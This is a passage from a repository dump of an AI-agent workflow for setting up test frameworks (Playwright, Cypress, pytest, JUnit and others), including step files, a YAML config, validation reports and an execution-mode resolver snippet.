- [ ] All peer dependencies satisfied

---

**Checklist Complete**: Sign off when all items checked and validated.

**Completed by:** {name}
**Date:** {date}
**Framework:** { Playwright / Cypress or something else}
**Notes:** {notes}
```

## File: `src/workflows/testarch/bmad-testarch-framework/instructions.md`
```markdown
<!-- Powered by BMAD-CORE™ -->

# Test Framework Setup

**Workflow ID**: `_bmad/tea/testarch/bmad-testarch-framework`
**Version**: 5.0 (Step-File Architecture)

---

## Overview

Initialize a production-ready test framework (Playwright or Cypress) with fixtures, helpers, configuration, and best practices.

---

## WORKFLOW ARCHITECTURE

This workflow uses **step-file architecture**:

- **Micro-file Design**: Each step is self-contained
- **JIT Loading**: Only the current step file is in memory
- **Sequential Enforcement**: Execute steps in order without skipping

---

## INITIALIZATION SEQUENCE

### 1. Configuration Loading

From `workflow.yaml`, resolve:

- `config_source`, `test_artifacts`, `user_name`, `communication_language`, `document_output_language`, `date`
- `test_dir`, `use_typescript`, `framework_preference`, `project_size`

### 2. First Step

Load, read completely, and execute:
`./steps-c/step-01-preflight.md`

### 3. Resume Support

If the user selects **Resume** mode, load, read completely, and execute:
`./steps-c/step-01b-resume.md`

This checks the output document for progress tracking frontmatter and routes to the next incomplete step.
```

## File: `src/workflows/testarch/bmad-testarch-framework/validation-report-20260127-095021.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-framework
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-framework
validationStatus: COMPLETE
completionDate: 2026-01-27 10:03:10
---

# Validation Report: testarch-framework

**Validation Started:** 2026-01-27 09:50:21
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 8

**Step File Sizes:**

- steps-c/step-01-preflight.md: 69 lines [GOOD]
- steps-c/step-02-select-framework.md: 66 lines [GOOD]
- steps-c/step-03-scaffold-framework.md: 107 lines [GOOD]
- steps-c/step-04-docs-and-scripts.md: 63 lines [GOOD]
- steps-c/step-05-validate-and-summary.md: 61 lines [GOOD]
- steps-e/step-01-assess.md: 51 lines [GOOD]
- steps-e/step-02-apply-edit.md: 46 lines [GOOD]
- steps-v/step-01-validate.md: 53 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

- No {project-root} hardcoded paths detected in body
- No dead relative links detected

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- Last step steps-v/step-01-validate.md has no nextStepFile (final step OK)
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- No templates found in workflow root
- Steps with outputFile in frontmatter:
  - steps-c/step-04-docs-and-scripts.md
  - steps-v/step-01-validate.md

## Validation Design Check

- checklist.md present: YES
- Validation steps folder (steps-v) present: YES

## Instruction Style Check

- All steps include STEP GOAL, MANDATORY EXECUTION RULES, EXECUTION PROTOCOLS, CONTEXT BOUNDARIES, and SUCCESS/FAILURE metrics

## Summary

- Validation completed: 2026-01-27 10:03:10
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-framework/validation-report-20260127-102401.md`
```markdown
---
validationDate: 2026-01-27
workflowName: testarch-framework
workflowPath: {project-root}/src/workflows/testarch/bmad-testarch-framework
validationStatus: COMPLETE
completionDate: 2026-01-27 10:24:01
---

# Validation Report: testarch-framework

**Validation Started:** 2026-01-27 10:24:01
**Validator:** BMAD Workflow Validation System (Codex)
**Standards Version:** BMAD Workflow Standards

## File Structure & Size

- workflow.md present: YES
- instructions.md present: YES
- workflow.yaml present: YES
- step files found: 8

**Step File Sizes:**

- steps-c/step-01-preflight.md: 68 lines [GOOD]
- steps-c/step-02-select-framework.md: 65 lines [GOOD]
- steps-c/step-03-scaffold-framework.md: 106 lines [GOOD]
- steps-c/step-04-docs-and-scripts.md: 62 lines [GOOD]
- steps-c/step-05-validate-and-summary.md: 60 lines [GOOD]
- steps-e/step-01-assess.md: 50 lines [GOOD]
- steps-e/step-02-apply-edit.md: 45 lines [GOOD]
- steps-v/step-01-validate.md: 52 lines [GOOD]
- workflow-plan.md present: YES

## Frontmatter Validation

- No frontmatter violations found

## Critical Path Violations

### Config Variables (Exceptions)

Standard BMAD config variables treated as valid exceptions: bmb_creations_output_folder, communication_language, document_output_language, output_folder, planning_artifacts, project-root, project_name, test_artifacts, user_name

- No {project-root} hardcoded paths detected in body

- No dead relative links detected

- No module path assumptions detected

**Status:** ✅ PASS - No critical violations

## Menu Handling Validation

- No menu structures detected (linear step flow) [N/A]

## Step Type Validation

- steps-c/step-01-preflight.md: Init [PASS]
- steps-c/step-02-select-framework.md: Middle [PASS]
- steps-c/step-03-scaffold-framework.md: Middle [PASS]
- steps-c/step-04-docs-and-scripts.md: Middle [PASS]
- steps-c/step-05-validate-and-summary.md: Final [PASS]
- Step type validation assumes linear sequence (no branching/menu). Workflow-plan.md present for reference. [INFO]

## Output Format Validation

- Templates present: NONE
- Steps with outputFile in frontmatter:
  - steps-c/step-04-docs-and-scripts.md
  - steps-v/step-01-validate.md
- checklist.md present: YES

## Validation Design Check

- Validation steps folder (steps-v) present: YES
- Validation step(s) present: step-01-validate.md
- Validation steps reference checklist data and auto-proceed

## Instruction Style Check

- Instruction style: Prescriptive (appropriate for TEA quality/compliance workflows)
- Steps emphasize mandatory sequence, explicit success/failure metrics, and risk-based guidance

## Collaborative Experience Check

- Overall facilitation quality: GOOD
- Steps use progressive prompts and clear role reinforcement; no laundry-list interrogation detected
- Flow progression is clear and aligned to workflow goals

## Subagent Optimization Opportunities

- No high-priority subagent optimizations identified; workflow already uses step-file architecture
- Pattern 1 (grep/regex): N/A for most steps
- Pattern 2 (per-file analysis): already aligned to validation structure
- Pattern 3 (data ops): minimal data file loads
- Pattern 4 (parallel): optional for validation only

## Cohesive Review

- Overall assessment: GOOD
- Flow is linear, goals are clear, and outputs map to TEA artifacts
- Voice and tone consistent with Test Architect persona
- Recommendation: READY (minor refinements optional)

## Plan Quality Validation

- Plan file present: workflow-plan.md
- Planned steps found: 8 (all implemented)
- Plan implementation status: Fully Implemented

## Summary

- Validation completed: 2026-01-27 10:24:01
- Critical issues: 0
- Warnings: 0 (informational notes only)
- Readiness: READY (manual review optional)
```

## File: `src/workflows/testarch/bmad-testarch-framework/workflow-plan.md`
```markdown
    # Workflow Plan: testarch-framework

    ## Create Mode (steps-c)
    - step-01-preflight.md

- step-02-select-framework.md
- step-03-scaffold-framework.md
- step-04-docs-and-scripts.md
- step-05-validate-and-summary.md

  ## Validate Mode (steps-v)
  - step-01-validate.md

  ## Edit Mode (steps-e)
  - step-01-assess.md
  - step-02-apply-edit.md

  ## Outputs
  - Framework config (playwright.config.ts or cypress.config.ts)

- {project-root}/tests/README.md
- Test support scaffolding under {project-root}/tests
```

## File: `src/workflows/testarch/bmad-testarch-framework/workflow.md`
```markdown
---
name: bmad-testarch-framework
description: Initialize test framework with Playwright or Cypress. Use when user says 'lets setup test framework' or 'I want to initialize testing framework'
web_bundle: true
---

# Test Framework Setup

**Goal:** Initialize production-ready test framework architecture (Playwright or Cypress) with fixtures, helpers, and configuration

**Role:** You are the Master Test Architect.

---

## WORKFLOW ARCHITECTURE

This workflow uses **tri-modal step-file architecture**:

- **Create mode (steps-c/)**: primary execution flow
- **Validate mode (steps-v/)**: validation against checklist
- **Edit mode (steps-e/)**: revise existing outputs

---

## INITIALIZATION SEQUENCE

### 1. Mode Determination

"Welcome to the workflow. What would you like to do?"

- **[C] Create** — Run the workflow
- **[R] Resume** — Resume an interrupted workflow
- **[V] Validate** — Validate existing outputs
- **[E] Edit** — Edit existing outputs

### 2. Route to First Step

- **If C:** Load `steps-c/step-01-preflight.md`
- **If R:** Load `steps-c/step-01b-resume.md`
- **If V:** Load `steps-v/step-01-validate.md`
- **If E:** Load `steps-e/step-01-assess.md`
```

## File: `src/workflows/testarch/bmad-testarch-framework/workflow.yaml`
```yaml
# Test Architect workflow: bmad-testarch-framework
name: bmad-testarch-framework
# prettier-ignore
description: 'Initialize test framework with Playwright or Cypress. Use when the user says "lets setup test framework" or "I want to initialize testing framework"'

# Critical variables from config
config_source: "{project-root}/_bmad/tea/config.yaml"
output_folder: "{config_source}:output_folder"
test_artifacts: "{config_source}:test_artifacts"
user_name: "{config_source}:user_name"
communication_language: "{config_source}:communication_language"
document_output_language: "{config_source}:document_output_language"
date: system-generated

# Workflow components
installed_path: "."
instructions: "./instructions.md"
validation: "./checklist.md"

# Variables and inputs
variables:
  test_dir: "{project-root}/tests" # Root test directory
  use_typescript: true # Prefer TypeScript configuration
  framework_preference: "auto" # auto, playwright, cypress - user can override auto-detection
  project_size: "auto" # auto, small, large - influences framework recommendation

# Output configuration
default_output_file: "{test_dir}/README.md" # Main deliverable is test setup README

# Required tools
required_tools:
  - read_file # Read package.json, existing configs
  - write_file # Create config files, helpers, fixtures, tests
  - create_directory # Create test directory structure
  - list_files # Check for existing framework
  - search_repo # Find architecture docs

tags:
  - qa
  - setup
  - test-architect
  - framework
  - initialization

execution_hints:
  interactive: false # Minimize prompts; auto-detect when possible
  autonomous: true # Proceed without user input unless blocked
  iterative: true
```

## File: `src/workflows/testarch/bmad-testarch-framework/steps-c/step-01-preflight.md`
```markdown
---
name: 'step-01-preflight'
description: 'Verify prerequisites and gather project context'
nextStepFile: './step-02-select-framework.md'
outputFile: '{test_artifacts}/framework-setup-progress.md'
---

# Step 1: Preflight Checks

## STEP GOAL

Verify the project is ready for framework scaffolding and gather key context.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- 🚫 Halt if preflight requirements fail

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Stack Detection

**Read `config.test_stack_type`** from `{config_source}`.

**Auto-Detection Algorithm** (when `test_stack_type` is `"auto"` or not configured):

- Scan `{project-root}` for project manifests:
  - **Frontend indicators**: `package.json` with react/vue/angular/next dependencies, `playwright.config.*`, `vite.config.*`, `webpack.config.*`
  - **Backend indicators**: `pyproject.toml`, `pom.xml`/`build.gradle`, `go.mod`, `*.csproj`/`*.sln`, `Gemfile`, `Cargo.toml`
  - **Both present** = `fullstack`; only frontend = `frontend`; only backend = `backend`
- Explicit `test_stack_type` config value overrides auto-detection
- **Backward compatibility**: if `test_stack_type` is not in config, treat as `"auto"` (preserves current frontend behavior for existing installs)

Store result as `{detected_stack}` = `frontend` | `backend` | `fullstack`

---

## 2. Validate Prerequisites

**If {detected_stack} is `frontend` or `fullstack`:**

- `package.json` exists in project root
- No existing E2E framework (`playwright.config.*`, `cypress.config.*`, `cypress.json`)

**If {detected_stack} is `backend` or `fullstack`:**

- At least one backend project manifest exists (`pyproject.toml`, `pom.xml`, `build.gradle`, `go.mod`, `*.csproj`, `Gemfile`, `Cargo.toml`)
- No existing test framework config that conflicts (e.g., `conftest.py` with full pytest suite, `src/test/` with JUnit suite)

- Architecture/stack context available (project type, bundler, dependencies)

If any fail, **HALT** and report the missing requirement.

---

## 3. Gather Project Context

**If {detected_stack} is `frontend` or `fullstack`:**

- Read `package.json` to identify framework, bundler, dependencies

**If {detected_stack} is `backend` or `fullstack`:**

- Read the relevant project manifest (`pyproject.toml`, `pom.xml`, `go.mod`, `*.csproj`, `Gemfile`, `Cargo.toml`) to identify language, framework, and dependencies

- Check for architecture docs (`architecture.md`, `tech-spec*.md`) if available
- Note auth requirements and APIs (if documented)

---

## 3. Confirm Findings

Summarize:

- Project type and bundler
- Whether a framework is already installed
- Any relevant context docs found

---

### 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-01-preflight']
  lastStep: 'step-01-preflight'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-01-preflight'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-01-preflight'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-framework/steps-c/step-01b-resume.md`
```markdown
---
name: 'step-01b-resume'
description: 'Resume interrupted workflow from last completed step'
outputFile: '{test_artifacts}/framework-setup-progress.md'
---

# Step 1b: Resume Workflow

## STEP GOAL

Resume an interrupted workflow by loading the existing progress document, verifying previously created artifacts still exist on disk, displaying progress, and routing to the next incomplete step.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: Output document with progress frontmatter
- Focus: Load progress and route to next step
- Limits: Do not re-execute completed steps
- Dependencies: Output document must exist from a previous run

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

### 1. Load Output Document

Read `{outputFile}` and parse YAML frontmatter for:

- `stepsCompleted` — array of completed step names
- `lastStep` — last completed step name
- `lastSaved` — timestamp of last save

**If `{outputFile}` does not exist**, display:

"⚠️ **No previous progress found.** There is no output document to resume from. Please use **[C] Create** to start a fresh workflow run."

**THEN:** Halt. Do not proceed.

---

### 2. Verify Previously Created Artifacts

Since this workflow creates code files, verify that artifacts from completed steps still exist on disk:

- If `step-01-preflight` completed: Confirm `package.json` still exists
- If `step-03-scaffold-framework` completed: Confirm directory structure and config files exist
- If `step-04-docs-and-scripts` completed: Confirm `{test_dir}/README.md` exists

If any expected artifacts are missing, warn the user and suggest re-running from the step that created them.

---

### 3. Display Progress Dashboard

Display:

"📋 **Workflow Resume — Test Framework Setup**

**Last saved:** {lastSaved}
**Steps completed:** {stepsCompleted.length} of 5

1. ✅/⬜ Preflight Checks (step-01-preflight)
2. ✅/⬜ Select Framework (step-02-select-framework)
3. ✅/⬜ Scaffold Framework (step-03-scaffold-framework)
4. ✅/⬜ Docs & Scripts (step-04-docs-and-scripts)
5. ✅/⬜ Validate & Summary (step-05-validate-and-summary)"

---

### 4. Route to Next Step

Based on `lastStep`, load the next incomplete step:

- `'step-01-preflight'` → `./step-02-select-framework.md`
- `'step-02-select-framework'` → `./step-03-scaffold-framework.md`
- `'step-03-scaffold-framework'` → `./step-04-docs-and-scripts.md`
- `'step-04-docs-and-scripts'` → `./step-05-validate-and-summary.md`
- `'step-05-validate-and-summary'` → **Workflow already complete.** Display: "✅ **All steps completed.** Use **[V] Validate** to review outputs or **[E] Edit** to make revisions." Then halt.

**If `lastStep` does not match any value above**, display: "⚠️ **Unknown progress state** (`lastStep`: {lastStep}). Please use **[C] Create** to start fresh." Then halt.

**Otherwise**, load the identified step file, read completely, and execute.

The existing content in `{outputFile}` provides context from previously completed steps.

---

## 🚨 SYSTEM SUCCESS/FAILURE METRICS

### ✅ SUCCESS:

- Output document loaded and parsed correctly
- Previously created artifacts verified on disk
- Progress dashboard displayed accurately
- Routed to correct next step

### ❌ SYSTEM FAILURE:

- Not loading output document
- Not verifying existing artifacts
- Incorrect progress display
- Routing to wrong step
- Re-executing completed steps

**Master Rule:** Resume MUST route to the exact next incomplete step. Never re-execute completed steps.
```

## File: `src/workflows/testarch/bmad-testarch-framework/steps-c/step-02-select-framework.md`
```markdown
---
name: 'step-02-select-framework'
description: 'Select Playwright or Cypress and justify choice'
nextStepFile: './step-03-scaffold-framework.md'
outputFile: '{test_artifacts}/framework-setup-progress.md'
---

# Step 2: Framework Selection

## STEP GOAL

Choose the most appropriate framework and document the rationale.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Selection Logic

Use `{detected_stack}` from Step 1 to guide framework selection.

**If {detected_stack} is `frontend` or `fullstack` (browser-based testing):**

Default to **Playwright** unless strong reasons suggest Cypress.

**Playwright recommended when:**

- Large or complex repo
- Multi-browser support needed
- Heavy API + UI integration
- CI speed/parallelism is important

**Cypress recommended when:**

- Small team prioritizes DX
- Component testing focus
- Simpler setup needed

**If {detected_stack} is `backend` (no browser-based testing):**

Select the framework matching the project language:

- **Python**: pytest (default), unittest
- **Java/Kotlin**: JUnit 5 (default), TestNG
- **Go**: Go test (built-in)
- **C#/.NET**: xUnit (default), NUnit, MSTest
- **Ruby**: RSpec (default), Minitest
- **Rust**: cargo test (built-in)

**If {detected_stack} is `fullstack`:**

Select both a browser-based framework (Playwright/Cypress) AND the appropriate backend framework for the detected language.

Respect `config.test_framework` if explicitly set (not `"auto"`).

---

## 2. Announce Decision

State the selected framework and reasoning.

---

### 3. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-02-select-framework']
  lastStep: 'step-02-select-framework'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-02-select-framework'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-02-select-framework'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-framework/steps-c/step-03-scaffold-framework.md`
```markdown
---
name: 'step-03-scaffold-framework'
description: 'Create framework scaffold with adaptive orchestration (agent-team, subagent, or sequential)'
nextStepFile: './step-04-docs-and-scripts.md'
knowledgeIndex: '{project-root}/_bmad/tea/agents/bmad-tea/resources/tea-index.csv'
outputFile: '{test_artifacts}/framework-setup-progress.md'
---

# Step 3: Scaffold Framework

## STEP GOAL

Generate the test directory structure, configuration files, fixtures, factories, helpers, and sample tests using deterministic mode selection with runtime fallback.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Apply knowledge base patterns where required
- ✅ Resolve execution mode from explicit user request first, then config
- ✅ Apply fallback rules deterministically when requested mode is unsupported

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 0. Resolve Execution Mode (User Override First)

```javascript
const parseBooleanFlag = (value, defaultValue = true) => {
  if (typeof value === 'string') {
    const normalized = value.trim().toLowerCase();
    if (['false', '0', 'off', 'no'].includes(normalized)) return false;
    if (['true', '1', 'on', 'yes'].includes(normalized)) return true;
  }
  if (value === undefined || value === null) return defaultValue;
  return Boolean(value);
};

const orchestrationContext = {
  config: {
    execution_mode: config.tea_execution_mode || 'auto', // "auto" | "subagent" | "agent-team" | "sequential"
    capability_probe: parseBooleanFlag(config.tea_capability_probe, true), // supports booleans and "false"/"true" strings
  },
  timestamp: new Date().toISOString().replace(/[:.]/g, '-'),
};

const normalizeUserExecutionMode = (mode) => {
  if (typeof mode !== 'string') return null;
  const normalized = mode.trim().toLowerCase().replace(/[-_]/g, ' ').replace(/\s+/g, ' ');

  if (normalized === 'auto') return 'auto';
  if (normalized === 'sequential') return 'sequential';
  if (normalized === 'subagent' || normalized === 'sub agent' || normalized === 'subagents' || normalized === 'sub agents') {
    return 'subagent';
  }
  if (normalized === 'agent team' || normalized === 'agent teams' || normalized === 'agentteam') {
    return 'agent-team';
  }

  return null;
};

const normalizeConfigExecutionMode = (mode) => {
  if (mode === 'subagent') return 'subagent';
  if (mode === 'auto' || mode === 'sequential' || mode === 'subagent' || mode === 'agent-team') {
    return mode;
  }
  return null;
};

// Explicit user instruction in the active run takes priority over config.
const explicitModeFromUser = normalizeUserExecutionMode(runtime.getExplicitExecutionModeHint?.() || null);

const requestedMode = explicitModeFromUser || normalizeConfigExecutionMode(orchestrationContext.config.execution_mode) || 'auto';
const probeEnabled = orchestrationContext.config.capability_probe;

const supports = { subagent: false, agentTeam: false };
if (probeEnabled) {
  supports.subagent = runtime.canLaunchSubagents?.() === true;
  supports.agentTeam = runtime.canLaunchAgentTeams?.() === true;
}

let resolvedMode = requestedMode;
if (requestedMode === 'auto') {
  if (supports.agentTeam) resolvedMode = 'agent-team';
  else if (supports.subagent) resolvedMode = 'subagent';
  else resolvedMode = 'sequential';
} else if (probeEnabled && requestedMode === 'agent-team' && !supports.agentTeam) {
  resolvedMode = supports.subagent ? 'subagent' : 'sequential';
} else if (probeEnabled && requestedMode === 'subagent' && !supports.subagent) {
  resolvedMode = 'sequential';
}
```

Resolution precedence:

1. Explicit user request in this run (`agent team` => `agent-team`; `subagent` => `subagent`; `sequential`; `auto`)
2. `tea_execution_mode` from config
3. Runtime capability fallback (when probing enabled)

## 1. Create Directory Structure

Use `{detected_stack}` from Step 1 to determine directory layout.

**If {detected_stack} is `frontend` or `fullstack`:**

- `{test_dir}/e2e/`
- `{test_dir}/support/fixtures/`
- `{test_dir}/support/helpers/`
- `{test_dir}/support/page-objects/` (optional)

**If {detected_stack} is `backend` or `fullstack`:**

Create the idiomatic test directory for the detected language:

- **Python (pytest)**: `tests/` with `conftest.py`, `tests/unit/`, `tests/integration/`, `tests/api/`
- **Java/Kotlin (JUnit)**: `src/test/java/` mirroring `src/main/java/` package structure, with `unit/`, `integration/`, `api/` sub-packages
- **Go**: `*_test.go` files alongside source files (Go convention), plus `testdata/` for fixtures
- **C#/.NET (xUnit)**: `tests/` project with `Unit/`, `Integration/`, `Api/` directories
- **Ruby (RSpec)**: `spec/` with `spec/unit/`, `spec/integration/`, `spec/api/`, `spec/support/`
- **Rust**: `tests/` for integration tests, inline `#[cfg(test)]` modules for unit tests

**If `config.tea_use_pactjs_utils` is enabled and runtime is Node.js/TypeScript** (i.e., `{detected_stack}` is `frontend` or `fullstack`, or `{detected_stack}` is `backend` with Node.js/TypeScript runtime):

Create Node.js/TypeScript contract testing directory structure per `pact-consumer-framework-setup.md`:

- `tests/contract/consumer/` — consumer contract test files (`.pacttest.ts` extension)
- `tests/contract/support/` — pact config, provider state factories, consumer helpers shim
- `scripts/` — shell scripts (`env-setup.sh`, `publish-pact.sh`, `can-i-deploy.sh`, `record-deployment.sh`)
- `.github/actions/detect-breaking-change/` — PR checkbox-driven breaking change detection
- `.github/workflows/contract-test-consumer.yml` — consumer CDC CI workflow

---

## 2. Generate Framework Config

**If {detected_stack} is `frontend` or `fullstack`:**

Create `playwright.config.ts` or `cypress.config.ts` with:

- **Timeouts**: action 15s, navigation 30s, test 60s
- **Base URL**: env fallback (`BASE_URL`)
- **Artifacts**: retain-on-failure (trace/screenshot/video)
- **Reporters**: HTML + JUnit + console
- **Parallelism**: enabled (CI tuned)

Use TypeScript if `use_typescript: true`.

**If {detected_stack} is `backend` or `fullstack`:**

Create the idiomatic test config for the detected framework:

- **pytest**: `pyproject.toml` `[tool.pytest.ini_options]` or `pytest.ini` with markers, test paths, coverage settings
- **JUnit**: `build.gradle`/`pom.xml` test configuration with JUnit 5 dependencies, Surefire/Failsafe plugins
- **Go test**: no config file needed (Go convention); optionally create `Makefile` test targets
- **xUnit**: `.csproj` test project with xUnit and coverlet dependencies
- **RSpec**: `.rspec` config file with `spec_helper.rb` and `rails_helper.rb` (if Rails)

---

## 3. Environment Setup

Create `.env.example` with `TEST_ENV`, `BASE_URL`, `API_URL`.

**Stack-conditional environment files:**

**If {detected_stack} is `frontend` or `fullstack` (Node.js):**

- `.nvmrc` using current LTS Node (prefer Node 24+)

**If {detected_stack} is `backend`:**

Create the idiomatic version file for the detected language:

- **Python**: `.python-version` with current stable Python (prefer 3.12+)
- **Java**: `.java-version` or `JAVA_HOME` documentation in `.env.example`
- **Go**: Go version is already in `go.mod` (no additional file needed)
- **C#/.NET**: `global.json` with SDK version if not already present
- **Ruby**: `.ruby-version` with current stable Ruby

---

## 4. Fixtures & Factories

Read `{config_source}` and use `{knowledgeIndex}` to load fragments based on `config.tea_use_playwright_utils`:

**If Playwright Utils enabled:**

- `overview.md`, `fixtures-composition.md`, `auth-session.md`, `api-request.md`, `recurse.md`, `log.md`, `burn-in.md`, `network-error-monitor.md`, `data-factories.md`
- If `{detected_stack}` is `frontend` or `fullstack`, also load `intercept-network-call.md`
- Recommend installing `@seontechnologies/playwright-utils`

**If disabled:**

- `fixture-architecture.md`, `data-factories.md`, `network-first.md`, `playwright-config.md`, `test-quality.md`

**If Pact.js Utils enabled** (`config.tea_use_pactjs_utils`):

- `pact-consumer-framework-setup.md` (CRITICAL: load this for directory structure, scripts, CI workflow, and PactV4 patterns)
- `pactjs-utils-overview.md`, `pactjs-utils-consumer-helpers.md`, `pactjs-utils-provider-verifier.md`, `pactjs-utils-request-filter.md`, `contract-testing.md`
- Recommend installing `@seontechnologies/pactjs-utils` and `@pact-foundation/pact`

**If Pact.js Utils disabled but contract testing relevant:**

- `contract-testing.md`

**If Pact MCP enabled** (`config.tea_pact_mcp` is `"mcp"`):

- `pact-mcp.md`

Implement:

- Fixture index with `mergeTests`
- Auto-cleanup hooks
- Faker-based data factories with overrides

---

## 5. Sample Tests & Helpers

**If {detected_stack} is `frontend` or `fullstack`:**

Create example tests in `{test_dir}/e2e/` demonstrating:

- Given/When/Then format
- data-testid selector strategy
- Factory usage
- Network interception pattern (if applicable)

**If {detected_stack} is `backend` or `fullstack`:**

Create example tests in the idiomatic location for the detected language:

- **Python**: `tests/test_example.py` with pytest fixtures, parametrize, and factory usage
- **Java**: `src/test/java/.../ExampleTest.java` with JUnit 5 annotations, `@BeforeEach` setup
- **Go**: `example_test.go` alongside source with table-driven tests and `testify` assertions
- **C#/.NET**: `tests/ExampleTests.cs` with xUnit `[Fact]`/`[Theory]` and fixture injection
- **Ruby**: `spec/example_spec.rb` with RSpec `describe`/`context`/`it` and factory_bot

Create helpers for:

- API clients (if needed)
- Network utilities (frontend/fullstack only)
- Auth helpers
- Test data factories (language-idiomatic patterns)

**If `config.tea_use_pactjs_utils` is enabled and runtime is Node.js/TypeScript** (i.e., `{detected_stack}` is `frontend` or `fullstack`, or `{detected_stack}` is `backend` with Node.js/TypeScript runtime):

Create Node.js/TypeScript contract test samples per `pact-consumer-framework-setup.md`:

- **Consumer test**: Example using PactV4 `addInteraction()` builder + `createProviderState` + real consumer code with URL injection (`.pacttest.ts` extension)
- **Support files**: Pact config factory (`pact-config.ts`), provider state factories (`provider-states.ts`), local consumer-helpers shim (`consumer-helpers.ts`)
- **Vitest config**: Minimal `vitest.config.pact.ts` (do NOT copy settings from unit config)
- **Shell scripts**: `env-setup.sh`, `publish-pact.sh`, `can-i-deploy.sh`, `record-deployment.sh` in `scripts/`
- **CI workflow**: `contract-test-consumer.yml` with detect-breaking-change action
- **package.json scripts**: `test:pact:consumer`, `publish:pact`, `can:i:deploy:consumer`, `record:consumer:deployment`
- **.gitignore**: Add `/pacts/` and `pact-logs/`

---

### 6. Orchestration Notes for This Step

For this step, treat these work units as parallelizable when `resolvedMode` is `agent-team` or `subagent`:

- Worker A: directory + framework config + env setup (sections 1-3)
- Worker B: fixtures + factories (section 4)
- Worker C: sample tests + helpers (section 5)

In parallel-capable modes, runtime decides worker scheduling and concurrency.

If `resolvedMode` is `sequential`, execute sections 1→5 in order.

Regardless of mode, outputs must be identical in structure and quality.

### 7. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-03-scaffold-framework']
  lastStep: 'step-03-scaffold-framework'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-03-scaffold-framework'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-03-scaffold-framework'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-framework/steps-c/step-04-docs-and-scripts.md`
```markdown
---
name: 'step-04-docs-and-scripts'
description: 'Document setup and add package.json scripts'
nextStepFile: './step-05-validate-and-summary.md'
